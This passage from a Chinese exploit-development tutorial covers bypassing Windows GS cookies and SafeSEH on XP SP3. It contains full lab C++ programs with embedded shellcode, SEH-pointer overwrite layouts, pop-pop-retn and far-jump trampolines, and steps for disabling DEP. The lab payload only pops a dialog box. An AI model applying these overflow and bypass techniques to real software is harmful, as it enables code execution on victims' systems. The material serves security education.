- 先将ebp-4处位置的值取出；
- 然后与esp异或
- 比较异或结果与存放在.data节的前4个字节的security_cookie，两者不同时报错

下面为实例：


> 还有个比较特别的地方是，代码优化后，buff不会再在栈区中开辟空间，而是直接引用堆区shellcode的地址，所以代码优化后的strcpy函数没有一般而言的缓冲区溢出问题。


本次实验的关键点是在 0x00403000 处写入我们自己的数据。而我们在 main 函数中通过 malloc 申请的空间起始地址为 0x00410048（将程序中断在 malloc 之后就可以看到，请读者自行 调试），这个位置相对 0x00403000 处于高址位置，我们可以通过向 test 函数中 i参数传递一个负 值来将指针 str 向0x00403000 方向移动，通过计算我们只需要将 i设置为 0xFFFF2FB8（-53320） 就可以将 str 指向 0x00403000。将程序重新编译后用 OllyDbg 加载，并在 strcpy 处中断。 


如图 10.5.2 所示，.data 中的 Cookie 已经成功地被我们修改为 0x90 了，胜利的曙光已经出 现，只要再控制了栈中的 Security Cookie 就可以挫败 GS 了。我们再来分析一下程序，字符串变量 dest 申请了 200 个字节空间，所以超过 200 个字节的它将被溢出，因此可以通过输入超长字符串来修改 Security Cookie。我们已经知道 Security Cookie 是由 0x00403000 处的值与当前 EBP 异或的结果，而 0x00403000 处已经被我们覆盖为 90909090 了，所以只要将 90909090 与 当前 EBP 异或的结果放到栈中 Security Cookie 的位置就可以了(计算结果应为"\xF4\x6F\x82\x90")。


现在我们开始布置 Shellcode，首先在开始的位置放上 4 个 0x90 用来修改 0x00403000 的 值，后边跟着弹出“failewest”对话框的机器码，然后用 0x90 填充至 Security Cookie 的位置， 接下来跟着 90909090 与当前 EBP 异或的结果，最后再加上 4 个字节的填充和 Shellcode 的起始 地址（用来覆盖函数返回地址）。 

通过调试可以发现 dest 的起始位置在 0x0012FE94，Security Cookie 位于 0x0012FF60，返 回地址位于 0x0012FF68，这些地址可能在您的实验环境中会有所变化，请根据您的实际情况调整。根据这些地址我们计算好 Shellcode 各部分填充的长度，布置成如图 10.5.3 所示的布局。


将布置好的 Shellcode 复制到程序里，编译运行，猜猜会出现什么情况？肯定是弹出熟悉 的对话框了.

## 亡羊补牢 SafeSEH

###  SafeSEH 对异常处理的保护原理 

通过 6.1 对异常机制的学习，我们知道改写 S.E.H 堆栈中异常处理的函数指针已经成为 Windows 平台下漏洞利用的经典手法。而且通过 10.4 的介绍，还知道通过攻击 S.E.H 可以轻松 绕过 GS 保护。

在 Windows XP SP2 及后续版本的操作系统中，微软引入了著名的 S.E.H 校验机制 SafeSEH。SafeSEH 的原理很简单，在程序调用异常处理函数前，对要调用的异常处理函数进 行一系列的有效性校验，当发现异常处理函数不可靠时将终止异常处理函数的调用。SafeSEH 实现需要操作系统与编译器的双重支持，二者缺一都会降低 SafeSEH 的保护能力。 

首先我们来看一下编译器在 SafeSEH 机制中所做的工作。通过启用/SafeSEH 链接选项可 以让编译好的程序具备 SafeSEH 功能，这一链接选项在 Visual Studio 2003 及后续版本中是默认启用的。启用该链接选项后，编译器在编译程序的时候将程序所有的异常处理函数地址提取出来，编入一张安全 S.E.H 表，并将这张表放到程序的映像里面。当程序调用异常处理函数的时候会将函数地址与安全 S.E.H 表进行匹配，检查调用的异常处理函数是否位于安全 S.E.H 表中。

通过开始菜单中的“程序→Microsoft Visual Studio 2008→Visual Studio Tools→Visual Studio 2008 Command Prompt”启用 VS 命令提示行，在命令行中执行 ```dumpbin /loadconfig 文件名``` 就可以查看程序安全 S.E.H 表的情况。 

我们比较一下同一段代码在 VC++ 6.0 和 VS 2008 分别编译后安全 S.E.H 表的区别。如图 11.1.2 所示，具有 SafeSEH 编译能力的 VS 2008 在编译程序时将程序中的异常处理函数的地址提取出来放到安全 S.E.H 表中。 


接下来我们来看一下操作系统在 SafeSEH 机制中发挥的重要作用。通过 6.1 的介绍我们知道异常处理函数的调用是通过 RtlDispatchException()函数处理实现的，SafeSEH 机制也是从这里开始的。我们来看一下这里都有哪些保护措施。 

- （1）检查异常处理链是否位于当前程序的栈中，如图 11.1.3 所示。如果不在当前栈中，程序将终止异常处理函数的调用。 


- （2）检查异常处理函数指针是否指向当前程序的栈中，如图 11.1.3 所示。如果指向当前栈中，程序将终止异常处理函数的调用。 
- （3）在前面两项检查都通过后，程序调用一个全新的函数 RtlIsValidHandler()，来对异常处理函数的有效性进行验证，稍后我们会详细介绍 RtlIsValidHandler()函数。 

作为一个全新的安全校验函数，RtlIsValidHandler 都做了哪些工作呢？Alex 在 2008 年的 Black Hat 大会上对其进行了披露。 
- 首先，该函数判断异常处理函数地址是不是在加载模块的内存空间，如果属于加载模块的内存空间，校验函数将依次进行如下校验。 
- （1）判断程序是否设置了 IMAGE_DLLCHARACTERISTICS_NO_SEH 标识。如果设置了这个标识，这个程序内的异常会被忽略。所以当这个标志被设置时，函数直接返回校验失败。
- （2）检测程序是否包含安全 S.E.H 表。如果程序包含安全 S.E.H 表，则将当前的异常处理函数地址与该表进行匹配，匹配成功则返回校验成功，匹配失败则返回校验失败。 
- （3）判断程序是否设置 ILonly 标识。如果设置了这个标识，说明该程序只包含.NET 编译人中间语言，函数直接返回校验失败。 
- （4）判断异常处理函数地址是否位于不可执行页（non-executable page）上。当异常处理函数地址位于不可执行页上时，校验函数将检测 DEP 是否开启，如果系统未开启 DEP 则返回校验成功，否则程序抛出访问违例的异常。 

如果异常处理函数的地址没有包含在加载模块的内存空间，校验函数将直接进行 DEP 相关检测，函数依次进行如下校验。
- （1）判断异常处理函数地址是否位于不可执行页（non-executable page）上。当异常处理函数地址位于不可执行页上时，校验函数将检测 DEP 是否开启，如果系统未开启 DEP 则返回校验成功，否则程序抛出访问违例的异常。
- （2）判断系统是否允许跳转到加载模块的内存空间外执行，如果允许则返回校验成功，否则返回校验失败。 RtlIsValidHandler()函数的校验流程如图 11.1.4 所示。 



通过以上分析，可以看到 SafeSEH 对 S.E.H 的校验已经相当完善了，并且能够有效降低通过攻击 S.E.H 中异常处理函数指针而获得控制权的可能性。现在您应该明白在 6.1 中我们为什么总是建议在 Windows 2000 平台上进行实验了吧。 

但SafeSEH是否真的可以杜绝针对S.E.H的攻击呢？让我们来看看RtlIsValidHandler()函数会在哪些情况下的允许异常处理函数执行。 
- （1）异常处理函数位于加载模块内存范围之外，且 DEP 关闭。 
- （2）异常处理函数位于加载模块内存范围之内，相应模块未启用 SafeSEH（安全 S.E.H 表 为空），同时相应模块不是纯 IL。 
- （3）异常处理函数位于加载模块内存范围之内，相应模块启用 SafeSEH（安全 S.E.H 表不为空），异常处理函数地址包含在安全 S.E.H 表中。

我们来分析一下这三种情况的可行性。 
- （1）现在我们只考虑 SafeSEH，不考虑 DEP，针对 DEP 的讨论我们放到下一节中。排除 DEP 干扰后，我们只需在加载模块内存范围之外找到一个跳板指令就可以转入 shellcode 执行， 这点还是比较容易实现的。 
- （2）在第二种情况中，我们可以利用未启用 SafeSEH 模块中的指令作为跳板，转入 shellcode 执行，这也是为什么我们说 SafeSEH 需要操作系统与编译器的双重支持。在加载模块中找到一 个未启用的 SafeSEH 模块也不是一件很困难的事情。 
- （3）这种情况下我们有两种思路可以考虑：
  - 一是清空安全 S.E.H 表，造成该模块未启用SafeSEH 的假象；
  - 二是将我们的指令注册到安全 S.E.H 表中。由于安全 S.E.H 表的信息在内存中是加密存放的，所以突破它的可能性也不大，这条路我们就先放弃吧。 

通过以上分析可以得出结论：突破 SafeSEH 还是可以做到的。您可能会问这些方法貌似有点复杂，有没有更为简便的方法突破呢？很负责地告诉您，方法是有的。有两种更为简便直接方法可以突破 SafeSEH。 

- （1）不攻击 S.E.H（太邪恶了），可以考虑覆盖返回地址或者虚函数表等信息。 
- （2）利用 S.E.H 的终极特权！这种安全校验存在一个严重的缺陷——如果 S.E.H 中的异常函数指针指向堆区，即使安全校验发现了 S.E.H 已经不可信，仍然会调用其已被修改过的异常处理函数，因此只要将 shellcode 布置到堆区就可以直接跳转执行！ 

理论分析结束，接下来我们转入实战阶段。请注意本节所有关于绕过 SafeSEH 机制的讨论 均不考虑 DEP 的影响。 

### 攻击返回地址绕过 SafeSEH  
如果碰到一个程序，他启用了 SafeSEH 但是未启用 GS，或者启用了 GS 但是刚好被攻击的函数没有 GS 保护（我们不考虑这种事情发生的概率，而且这种漏洞的的确确存在），攻击者肯定会直接攻击函数返回地址。在这里我们不过多介绍了。 

### 利用虚函数绕过 SafeSEH 
利用思路和我们在 10.3 中介绍的类似，通过攻击虚函数表来劫持程序流程，这个过程不涉 及任何异常处理，SafeSEH 也就只是个摆设。大家可以参考一下 10.3 中的例子自己实践一下， 在这我们就不做过多介绍了。 

### 从堆中绕过 SafeSEH 
所谓智者千虑，必有一失。我们将用如下代码演示如何利用堆绕过 SafeSEH。 

```c++
#include<stdafx.h> 
#include<stdlib.h> 
#include<string.h> 

	char shellcode[]= "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53" "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B" "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95" "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59" "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A" "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75" 
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03" "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB" "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" "\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
	"……" 
	"\x90\x90\x90\x90\x90\x90\x90\x90" 
	"\xA0\x29\x39\x00"//address of shellcode in heap 
; 

void test(char * input) 
{ 
	char str[200];
	strcpy(str,input);         
	int zero=0;        
	zero=1/zero; 
} 

void main() 
{        
	char * buf=(char *)malloc(500);        
	__asmint 3        
	strcpy(buf,shellcode);        
	test(shellcode);  
}
```

对实验思路和代码简要解释如下:
- （1）首先在堆中申请 500 字节的空间，用来存放 shellcode。 
- （2）函数 test 存在一个典型的溢出，通过向 str 复制超长字符串造成 str 溢出，进而覆盖程序的 S.E.H 信息。 
- （3）用 shellcode 在堆中的起始地址覆盖异常处理函数地址，然后通过制造除 0 异常，将程 序转入异常处理，进而跳转到堆中的 shellcode 执行。 


实验环境如表所示:
- 操作系统 Window XP SP3 且 DEP 关闭
  - 要关闭DEP，可以将c:\boot.ini中的 /noexecute=optin 去掉 或改为/noexecute=AlwaysOff。
- 编译器 Visual Studio 2008  
- 编译选项 禁用优化选项  
- build 版本 release 版本  

> 有关boot.ini文件中的选项/noexecute 的解释：
>  - 这个参数用于启用、禁用和设置数据执行保护(DEP)——即一组用于防止有害代码在被保护内存空间中被执行的硬件和软件技术。 关于使用/noexecute 参数和其他和DEP设置有关的参数的信息，查看用于配置DEP和PAE的引导参数。
>  - 注意 DEP能够很大的提高安全性，如果没有特别原因不要禁用DEP。
>  - 可选参数有：```/noexecute={alwayson | optout | optin | alwaysoff}```
>  - 子参数alwayson 为系统和所有进程启用DEP，包括Windows 内核和驱动程序。所有试图禁用DEP的操作都会被跳过。 
>  - optout 为系统和所有进程启用DEP，包括Windows 内核和驱动程序。但是管理员可以在控制面板的系统(System)中选择禁用指定程序的DEP。 
>  - optin 只为操作系统组件启用DEP，包括Windows 内核和驱动程序。管理员可以用应用程序兼容性工具(Application Compatibility Toolkit(ACT))为选定的程序启用DEP。 
>  - alwaysoff 禁用DEP。Disables DEP. Attempts to enable DEP selectively are ignored. 在Windows XP SP2上，该子参数同时禁用物理地址扩展(PAE)。但是在Windows Server 2003 SP1上不会禁用PAE。


由于本次实验利用的是 SafeSEH 对堆的特殊处理，所以大家尽可以将本次实验看做是普通的 S.E.H 攻击，只是 shellcode 没有放在栈中而是放在堆中的。我们首先将 shellcode 填充为多个 0x90，然后将程序用 VS2008 编译好后运行，由于我们在程序里加入了 int 3 指令，程序会自动中断，我们选择调试后系统会调用默认调试器进行调试。大家可以按照前面说过的方法将 OllyDbg 设置为默认调试器。

OllyDbg 附件到程序后会停在 ```__asm int 3``` 处。 如图 11.4.1 所示，程序中断前刚刚完成堆中空间的申请，此时寄存器 EAX 中存放着申请空间的首地址，所以 0x003929A0 也就是 shellcode 的首地址，这个地址可能在您的机器上会有所不同，请自行调试确定。有了 shellcode 的首地址后我们还需要确定填充多少个字节才能淹没异常函数的地址。我们让程序继续运行，中断在 test 函数中字符串复制结束时。 

> 这里在windows xp + vs2008 无优化的情况下，无法执行 int 3 后的代码。令人沮丧。


如图 11.4.2 所示，被溢出的字符串起始位置为 0x0012FE8C，S.E.H 异常处理函数指针位于 0x0012FFB0+4 的位置，这两个地址在您的调试环境中可能会有所改变，请根据环境自行调整。 所以我们使用 300 个字节就可以覆盖掉异常处理函数指针。所有的信息都收集好了，接下来我们开始布置 shellcode。 


我们将弹出“failwest”对话框的机器码代码放到前面，然后是 128 个字节的 0x90 填充，后在第 296~300 字节位置放上 shellcode 在堆中的起始地址 0x003929A0，用来更改异常处理 函数的指针。shellcode 布局如图 11.4.3 所示。 接下来验证一下我们的分析是否正确，用设计好的 shellcode 替换测试用的 0x90 串，重新 编译运行程序。程序依然会被 INT 3 中断，等 OllyDbg 运行后在 0x003929A0 上设置断点，然 后按 F9 键让程序继续运行，可以看到程序在 0x003929A0 处中断，说明我们现在已经成功绕过 SafeSEH 转入 shellcode 执行了，如图 11.4.4 所示。 让程序继续运行就会看到熟悉的对话框弹了。


### 利用未启用 SafeSEH 模块绕过 SafeSEH 

大家先来想想 SafeSEH 对于发生在未启用 SafeSEH 模块中的异常处理是如何校验的。如果模块未启用 SafeSEH，并且该模块不是仅包含中间语言（IL），这个异常处理就可以被执行。 所以如果我们能够在加载的模块中找到一个未启用 SafeSEH 的模块，就可以利用它里面的指令作为跳板来绕过 SafeSEH。 

本次实验我们将构建一个不启用 SafeSEH 的 dll，然后将其加载，并通过它里面的指令作为跳板实现 SafeSEH 的绕过。我们通过以下代码来演示和分析一下如何未启用 SafeSEH 的模块来绕过 SafeSEH 机制。 

```C++
//SEH_NOSafeSEH_JUMP.DLL 
#include "windows.h"
#include"stdio.h" 

BOOL APIENTRY DllMain( HANDLE hModule,DWORD  ul_reason_for_call, LPVOID lpReserved) 
{ 
	return TRUE; 
} 

void jump() 
{ 
	__asm{    
		pop eax    
		pop eax    
		retn    
	} 
} 

//SEH_NOSafeSEH.EXE 
#include"stdio.h" 
#include<string.h> 
#include<windows.h> 
#include <tchar.h>
char shellcode[]= 
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x12\x10\x12\x11"
	"\x90\x90\x90\x90\x90\x90\x90\x90"
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
	; 

DWORD MyException(void) 
{    
	printf("There is an exception");    
	getchar();    
	return 1; 
} 

void test(char * input) 
{    
	char str[200];    
	strcpy(str,input);  
	int zero=0;    
	__try    
	{         
		zero=1/zero;    
	}
	__except(MyException())    
	{    

	} 
} 

int _tmain(int argc, _TCHAR* argv[]) 
{    
	HINSTANCE hInst = LoadLibrary(_T("SEH_NOSafeSEH_JUMP.dll"));//load No_SafeSEH module
	char str[200];    
	//__asm int 3    
	test(shellcode);    
	return 0; 
} 
```

对实验思路和代码简要解释如下:
- （1）用 VC++ 6.0 编译一个不使用 SafeSEH 的动态链接库 SEH_NOSafeSEH_JUMP.DLL， 然后由启用 SafeSEH 的应用程序 SEH_NOSafeSEH.EXE 去加载它。 
- （2）SEH_NOSafeSEH 中的 test 函数存在一个典型的溢出，通过向 str 复制超长字符串造成 str 溢出，进而覆盖程序的 S.E.H 信息。 
- （3）使用 SEH_NOSafeSEH_JUMP.DLL 中的“pop pop retn”指令地址覆盖异常处理函数地址，然后通过制造除 0 异常，将程序转入异常处理。通过劫持异常处理流程，程序转入 SEH_NOSaeSEH_JUMP.DLL 中执行“pop pop retn”指令，在执行 retn 后程序转入 shellcode 执行。


实验环境如下表所示：
- 操作系统 Window XP SP3 DEP 关闭 
- EXE 编译器 Visual Studio 2008  
- DLL 编译器 VC++ 6.0 将 dll 基址设置为 0x11120000 
- 编译选项 禁用优化选项  build 版本 release 版本 
- 说明：将 dll 基址设置为 0x1112000 是为了防止“pop pop retn”指令地址中存在 0x00。 

使用 VC++ 6.0 建立一个 Win32 的动态链接库（不是 MFC 版的），如图所示。 


由于 VC++ 6.0 编译的 DLL 默认加载基址为 0x10000000，如果以它作为 DLL 的加载基址， DLL 中“pop pop retn”指令地址中可能会包含 0x00，这会在我们进行 strcpy 操作时会将字符 串截断影响我们 shellcode 的复制，所以为了方便测试我们需要对基址进行重新设置。在顶部菜 单中选择“工程→设置”，然后切换到“连接”选项卡，在“工程选项”的输入框中添加 “/base:"0x11120000"”即可，如图 


编译好后将 SEH_NOSafeSEH_JUMP.DLL 复制到 SEH_NOSafeSEH.EXE 目录下即可。 搞定不启用SafeSEH的DLL后我们回过头来分析要溢出的主程序，我们依然采用添加INT 3 的方式中断程序，然后通过 OllySSEH 插件来查看加载模块的 SafeSEH 情况。大家可以在 “http://www.openrce.org/downloads/details/244/OllySSEH%20target=”处下载到 OllySSEH。

OllySSEH 对于 SafeSEH 的描述有四种： 
- （1）/SafeSEH OFF，未启用 SafeSEH，这种模块可以作为跳板。 
- （2）/SafeSEH ON，启用 SafeSEH，可以使用右键点击查看 S.E.H 注册情况。 
- （3）No SEH，不支持 SafeSEH，即 IMAGE_DLLCHARACTERISTICS_ NO_SEH 标志位被 设置，模块内的异常会被忽略，所以不能作为跳板。 
- （4）Error，读取错误。 

如图 11.5.3 所示，虽然主程序 SEH_NOSafeSEH.EXE 启用了 SafeSEH，但是它里面的模块 SEH_NOSafeSEH_JUMP.DLL 未启用 SafeSEH，我们可以利用这个 DLL 中的指令作为跳板来绕 过 SafeSEH。现在我们需要在这个 DLL 中找到一个合适的跳板指令，接下来我们转入 SEH_NOSafeSEH_JUMP.DLL 的空间去寻找可以使用的“pop pop retn”指令序列。 


如图 11.5.4 所示，我们在 DLL 中添加的“pop eax pop eax retn”指令序列起始地址为 0x11121012，当然您也可以在这个 DLL 寻找其他的“pop pop retn”指令序列，在本次实验中 我们将使用 0x11121012 为跳板地址。 


确定好跳板地址后，我们来计算被溢出字符串到近的异常处理函数指针的距离，我们依然将字符串 shellcode 赋值为 0x90 串，长度小于 200 个字节，然后在 strcpy 操作结束后中断程序。如图 11.5.5 所示，被溢出字符串的起始位置为 0x0012FDB8，距离它近的异常处理函数 指针位于 0x0012FE90+4 的位置，所以当字符串长度超过 224 个字节后就可以覆盖异常处理函 数指针。 


由于这次使用的是“pop pop retn”指令序列，所以我们要将弹出“failwest”对话框的机器码放到 shellcode 的后半部分。**这就有一个细节我们需要注意了，经过 VS 2008 编译的程序，在进入含有__try{}的函数（在这里就是test函数）时会在 Security Cookie+4 的位置压入−2（VC++ 6.0 下为−1），在程序进入__try{}区域时程序会根据该__try{}块在函数中的位置而修改成不同的值。例如，函数中有两个__try{}块，在进入第一个__try{}块时这个值会被修改成 0，进入第二个的时候被修改为 1。 如果在__try{}块中出现了异常，程序会根据这个值调用相应的__except()处理，处理结束后这个位置的值会重新修改为−2；如里没有发生异常，程序在离开__try{}块时这个值也会被修改回 −2。当然这个值在异常处理时还有其他用途，在这我们不过多介绍，有兴趣的话可以自己跟踪 调试一下。我们只需要知道由于它的存在，我们的 shellcode 可能会被破坏。如图 11.5.6 所示。**


为了避免 shellcode 关键部分被破坏，可采用如下布局：shellcode 开始部分为 220 个字节的 0x90 填充；在 221~224 位置用前面在 SEH_NOSafeSEH_JUMP.DLL 中找到的跳 板地址 0x11121012 覆盖；然后再跟上 8 个字节的 0x90 填充；后附上弹出“failwest” 对话框的机器码。这样就可以保证弹出对话框的机器码不被破坏了。整体布局如图 11.5.7 所示。 


在程序里按照上边的布局将 shellcode 布置好后，将程序重新编译运行，等待 OllyDbg 启动后，我们在 0x11121012 处下好断点，然后让程序继续运行。不出意外的话可以看到程序在 0x11121012 处中断(我的实验中无法观察，即调试器无法捕捉这个断点，但实验是成功的)，说明现在我们已经绕过 SafeSEH 成功劫持程序流程了。


继续单步执行，在 retn 后转入我们的 shellcode 执行，如图 11.5.9 所示。在图 11.5.9 中 我们可以看从 0x0012FE90 到 0x0012FEA0 的路上有一些不和谐的东西出现，分别是我们用 来覆盖异常函数指针的跳板地址和进入__try{}块时被赋值为 0 的部分。在本次实验中这两 个不和谐因素对程序流程没有产生实质影响，所以可以不予处理，按 F9 键让程序直接运行 就可以看到弹出熟悉的对话框了。但如果这些因素对程序流程产生影响时，0x0012FE90 处 的填充就不能再用 0x90 了，就要使用向后跳转指令，跳过不和谐因素，直接进入关键部分 执行。


再按 F9 键让程序继续执行，就能看到熟悉的对话框了

### 利用加载模块之外的地址绕过 SafeSEH 


当程序加载到内存中后，在它所占的整个内存空间中，除了我们平时常见的 PE 文件模块 （EXE 和 DLL）外，还有其他一些映射文件，我们可以通过 OllyDbg 的“view→memory”查看 程序的内存映射状态。例如，在图 11.6.1 中，类型为 Map 的映射文件，SafeSEH 是无视它们的， 当异常处理函数指针指向这些地址范围内时，是不对其进行有效性验证的，所以如果我们可以 在这些文件中找到跳转指令的话就可以绕过 SafeSEH，而这样的指令也确实存在。 


经过前辈们的不懈努力找到了一批可以用在这种情况下的跳板地址。除了我们前面用过的 “pop pop retn”指令序列外，还有如下指令： 

```
call/jmp dword ptr[esp+0x8] 

call/jmp dword ptr[esp+0x14] 

call/jmp dword ptr[esp+0x1c] 

call/jmp dword ptr[esp+0x2c] 

call/jmp dword ptr[esp+0x44] 

call/jmp dword ptr[esp+0x50] 

call/jmp dword ptr[ebp+0xc] 

call/jmp dword ptr[ebp+0x24] 

call/jmp dword ptr[ebp+0x30] 

call/jmp dword ptr[ebp-0x4] 

call/jmp dword ptr[ebp-0xc] 

call/jmp dword ptr[ebp-0x18] 
```

只我们找到其中一条指令就可以绕过 SafeSEH 了，我们通过以下代码来演示和分析如何在所有加载模块都开启 SafeSEH 机制的情况下绕过 SafeSEH。 

```C++
#include"stdio.h" 
#include<string.h> 
#include<windows.h> 
#include<tchar.h>

char shellcode[]= 
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" 
	//"……" 
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
	"\xE9\x2B\xFF\xFF\xFF\x90\x90\x90"// far jump and \x90 
	"\xEB\xF6\x90\x90" // short jump and \x90 
	"\x0B\x0B\x29\x00"// address of call [ebp+30] in outside memory ; 
	;
DWORD MyException(void) 
{    
	printf("There is an exception");    
	getchar();    
	return 1; 
} 
void test(char * input) 
{    
	char str[200];    
	strcpy(str,input);     
	int zero=0;    
	__try    
	{         
		zero=1/zero;    
	}    
	__except(MyException())    
	{   
	} 
} 

int _tmain(int argc, _TCHAR* argv[]) 
{    
	__asm int 3    
	test(shellcode);    
	return 0; 
}
```

对实验思路和代码简要解释如下。 
- （1）Test 函数中存在一个典型的溢出，通过向 str 复制超长字符串造成 str 溢出，进而覆盖程序的 S.E.H 信息。 
- （2）该程序中所有加载模块都启用了 SafeSEH 机制，故我们不能通过未启用 SafeSEH 的 模块还绕过 SafeSEH 了。 
- （3）将异常处理函数指针覆盖为加载模块外的地址来实现对 SafeSEH 的绕过，然后通过除 0 触发异常将程序转入异常处理，进而劫持程序流程。 


实验环境如表所示: 
- 操作系统 Window XP SP3 DEP 关闭 
- 编译器 Visual Studio 2008  
- 编译选项 禁用优化选项  
- build 版本 release 版本  
- 说明：shellcode 中尾部的 0x00290B0B 为 Windows XP SP3 下的跳板地址，如果您在其他操作系统下测试，该地址可能需要重新设置。 


我们首先用 0x90 填充 shellcode，长度不超过 200 个字节，然后编译运行程序。由于__asm INT 3 的存在程序会被中断，等 Ollydbg 启动好后我们通过 OllySSEH 插件来查看当前加载模块 的 SafeSEH 情况。 

如图 11.6.2 所示，所有的加载模块都不是/SafeSEH OFF 状态，也就是意味着我们不能利用 任何一个模块进行跳转绕过 SafeSEH 了，所以我们只能在加载模块内存范围之外的地方寻找合 适的跳板绕过 SafeSEH 了，只要能找到前面提到指令中的任意一条我们就成功了一半。 


为此，我们特意为 OllyDbg 开发了一个插件来进行指令搜索，叫 OllyFindAddr，您可以在 随书资料中找到这个插件（有兴趣的朋友也可以尝试为 OllyDbg 开发自己的特色插件）。与 Ollydbg 自己的指令搜索不同，OllyFindAddr 不只在加载模块中搜索指令，而是在整个程序的 内存空间搜索。本次实验中我们将使用 call/jmp dword ptr[ebp+n]指令来作为跳板。在 Ollydbg 中通过“Plugins→OllyFindAddr→Overflow return address→Find CALL/JMP [EBP+N]”来进行此 类指令的搜索，如图 11.6.3 所示。 


搜索结束后可以在日志窗口中查看搜索结果。如图 11.6.4 所示，虽然我们找到很多符合搜索特征的指令，但是绝大多数的都是位于加载模块中，这样的指令都是不能用来作为跳板的。 


我们的运气还不错，在 0x00290B0B 处找到了一条 call [ ebp+0x30]的指令，与图 11.6.1 或者 OllyDbg 中的内存窗口对比可以发现这个地址不位于任何加载模块中，所以这个地址可以作为我们的跳板。 如果使用 0x00290B0B 作为跳板，我们还面临一个比较棘手的问题，这个地址中包含着 0x00，这就意味着在字符串复制的时候 0x00 之后的内容都会被截断，所以我们不能将 shellcode 的关键部分放到跳板后边（如果是 Unicode 的漏洞就不用考虑这个问题，因为 Unicode 的结束 符号为 0x0000）。 大家应该还记得我们在利用未启用 SafeSEH 模块绕过 SafeSEH 后提到得 0xEB0E9090 吧，其实 0xEB0E 是向前跳转 0x0E 的机器码。通过对图 11.5.9 分析我们可以知道通过跳板指 令转入 shellcode 后首先是 4 个字节的 0x90 的填充，而短跳转指令只需要 2 个字节，因此我们 可以在这个 4 个字节的位置放置一个短跳转指令让程序向内存低址位置跳转。但由于 1 个字节 的操作数向回跳的范围有限，不足以跳转到 shellcode 的起始地址，所以我们利用两次跳转来完 成跳跃。

- （1）通过一个 2 字节的短跳转指令 0xEBF6 向回跳 8 个字节。 
- （2）在这 8 个字节中我们再布置一条 5 字节的长跳转指令完成终的回跳。 

跳转示意如图 11.6.5 所示。 


